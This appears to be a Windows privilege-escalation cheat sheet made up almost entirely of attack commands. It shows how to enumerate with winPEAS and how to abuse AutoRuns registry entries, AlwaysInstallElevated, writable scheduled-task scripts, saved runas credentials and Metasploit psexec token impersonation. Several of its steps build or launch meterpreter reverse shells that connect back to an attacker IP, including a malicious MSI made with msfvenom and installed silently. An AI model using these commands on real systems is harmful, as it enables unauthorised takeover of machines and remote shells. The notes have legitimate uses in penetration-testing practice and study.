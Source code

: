 ## Registry exploits

### AutoRuns

```
winPEAS.exe quiet applicationsinfo

reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Copy exploit to path of the .exe

Restart windows
```

### Always Install Elevated

```
winPEAS.exe quiet windowscreds

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

msfvenom -p windows/meterpreter/reverse_tcp lhost=(ATTACKER IP ADDRESS) lport=(ATTACKER PORT) –f  msi > install.msi
msiexec /quiet /qn /i  install.msi
```

## Scheduled Tasks

```
schtasks /query /fo LIST /v

Find script that is being executed and write to it

echo C:\PrivEsc\reverse.exe >> CleanUp.ps1
```

## Runas (Stored Credentials)

Identifying Stored Credentials

```
cmdkey /list

runas /savecred /user:WORKGROUP\Administrator "C:\Users\ignite\Downloads\shell.exe"
```

## Token Impersonation with Incognito

```
msfconsole
user windows/smb/psexec
set rhosts
set smbdomain
set smbpass
set smbuser
show targets
set targets 2 (native upload)
set payload windows/x64/meterpreter/reverse_tcp
set lhost
set lport
```
